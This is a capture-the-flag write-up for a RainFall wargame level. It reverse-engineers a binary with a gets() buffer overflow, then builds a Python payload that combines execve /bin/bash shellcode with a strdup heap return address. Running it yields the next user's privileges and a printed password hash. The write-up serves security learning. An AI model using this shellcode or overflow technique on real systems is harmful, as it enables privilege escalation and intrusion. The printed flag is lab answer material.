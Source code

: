 # Level1

## Information gathering

We are once again given a binary to exploit. This binary also has minimal security options.

We revere engineer it once again using ghidra and it gives the following pseudo-C :

```c
void p(void)

{
  uint unaff_retaddr;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}
```

And the stack frame looks like this :
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined p()
             undefined         AL:1           <RETURN>
             undefined4        Stack[0x0]:4   local_res0                 
             undefined4        Stack[-0x10]:4 local_10                   
             undefined1        Stack[-0x50]:1 local_50                   
             undefined4        Stack[-0x68]:4 local_68                   
             undefined4        Stack[-0x6c]:4 local_6c                   
```
Looks like an easy buffer overflow, except unaff_retaddr is checked in order to see if it begins with `0xb`.
This prevents us from overwriting the return address with an address on the stack because the stack address for this program seems to always start with `0xb`.
But look at the end ! There's a call to `strdup` which seems very useless to the program but very useful to us because if we know the address that strdup returns,
then, we can overwrite the return address with that value so that it lands on a copy of our shellcode.

```text
$> ltrace ./level2
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                                                                = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5dfjgpodsgsdg
)                                                                                     = 0xbffff6fc
puts("dfjgpodsgsdg"dfjgpodsgsdg
)                                                                                                              = 13
strdup("dfjgpodsgsdg")                                                                                                            = 0x0804a008
+++ exited (status 8) +++
```

I have no clue at this point if the address will be `0x0804a008` with each execution but maybe we should try because I'm too lazy to be smart.


## Exploitation

If we look back at the stack frame, our buffer starts at
`%rsp - 0x50` and the return address is the 4 bytes right after that.

So all we need to do is write our shellcode within the `0x50` first bytes and then write 0x0804a008 in Little Endian (we can figure that out by using the `file` command on our executable).

```py
import struct

heap_addr = 0x0804a008
shellcode = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
payload = shellcode
payload += b"\x90" * (0x50 - len(shellcode))
payload += struct.pack("<I", heap_addr)

with open("payload", "wb") as f:
    f.write(payload)
```

And nice, we have our malicious input as a file and all we need to do now is redirect it into the stdin of `level2`.

```text
level2@RainFall:~$ ./level2 < /tmp/payload
j
 X�Rfh-p��Rjhh/bash/bin��RQS��̀������������������������������������������
level2@RainFall:~$ id
uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)
```

WTF nothing happened ?! That is because when it receives all the input from `/tmp/payload`, it just closes it and thereis no more `stdin` and bash will be like "What no stdin ? I have no purpose ! Aurevoir.". In order, to fix this we can use use a pipe an unending `cat` command to keep it open :

```text
level2@RainFall:~$ (cat /tmp/payload; cat) | ./level2 
j
 X�Rfh-p��Rjhh/bash/bin��RQS��̀������������������������������������������
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
```

And wouhou, we have level3`s effective uid and gid which means we can read his files. So we simply cat the .pass in his home folder :
```text
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Easy onto the next one.

## References

- https://stackoverflow.com/questions/8509045/execve-bin-sh-0-0-in-a-pipe